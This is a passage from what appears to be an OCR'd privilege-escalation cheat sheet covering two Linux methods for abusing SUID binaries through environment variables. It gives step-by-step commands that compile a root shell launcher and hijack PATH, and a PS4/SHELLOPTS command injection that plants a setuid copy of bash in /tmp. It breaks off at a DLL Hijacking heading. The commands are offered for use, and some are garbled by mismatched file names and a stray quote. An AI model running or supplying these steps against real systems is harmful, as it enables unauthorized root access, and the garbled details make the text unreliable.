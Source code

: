 In root user

invoke-rc.d nginx rotate \>/dev/null 2\>&1

<a name="abusing-file-permission-via-suid-binaries-environment-variables-1"></a>
# Abusing File Permission via SUID Binaries - Environment Variables \#1) 

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing File Permission

Methods:

1\.

echo \'int main() { setgid(0); setuid(0); system(\"/bin/bash\"); return
0; }\' \>/tmp/service.c;

2\.

gcc /tmp/services.c -o /tmp/service;

3\.

export PATH=/tmp:\$PATH;

4\.

/usr/local/bin/sudi-env; id

<a name="abusing-file-permission-via-suid-binaries-environment-variables-2"></a>
# Abusing File Permission via SUID Binaries - Environment Variables \#2) 

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing File Permission

Methods:

1\.

env -i SHELLOPTS=xtrace PS4=\'\$(cp /bin/bash /tmp && chown root.root
/tmp/bash && chmod +S /tmp/bash)\' /bin/sh -c /usr/local/bin/suid-env2;
set +x; /tmp/bash -p\'

<a name="dll-hijacking"></a>
# DLL Hijacking
